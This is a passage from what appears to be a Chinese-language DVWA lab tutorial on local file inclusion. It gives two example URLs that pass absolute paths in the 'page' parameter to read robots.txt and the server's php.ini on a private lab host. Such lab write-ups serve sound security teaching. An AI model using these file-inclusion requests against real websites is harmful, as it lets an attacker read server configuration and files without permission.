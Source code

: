 ![show-robots](../imgs/wm_313.png)

并且我们上文使用的是相对路径，我们还可以使用绝对路径来访问：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/robots.txt
```

我们会得到同样的结果。

我们还可以通过这样的方式访问到网站根目录中的 php 配置文件：

```
http://192.168.122.102/dvwa/vulnerabilities/fi/?page=/var/www/dvwa/php.ini
```
